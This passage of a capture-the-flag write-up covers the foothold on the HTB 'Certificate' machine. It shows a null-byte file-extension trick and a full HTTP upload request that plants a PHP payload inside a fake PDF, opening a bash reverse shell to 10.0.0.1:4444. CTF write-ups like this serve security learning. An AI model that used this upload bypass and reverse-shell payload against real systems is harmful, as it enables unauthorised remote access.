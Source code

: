 ## Foothold

### Upload Filter Shenanigans

We started to find a way around the `upload filter restrictions` and therefore added a `null byte` in-between the `actual file extension` and one of the `extensions excepted by the web application`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ mv hellp.pdf hello.php%00.pdf
```

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 511
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW9CJ5b2mq59aslAK
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundaryW9CJ5b2mq59aslAK
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundaryW9CJ5b2mq59aslAK
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundaryW9CJ5b2mq59aslAK
Content-Disposition: form-data; name="file"; filename="hello.php%00.pdf"
Content-Type: application/pdf


%PDF-1.7
%

<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>

------WebKitFormBoundaryW9CJ5b2mq59aslAK--

```
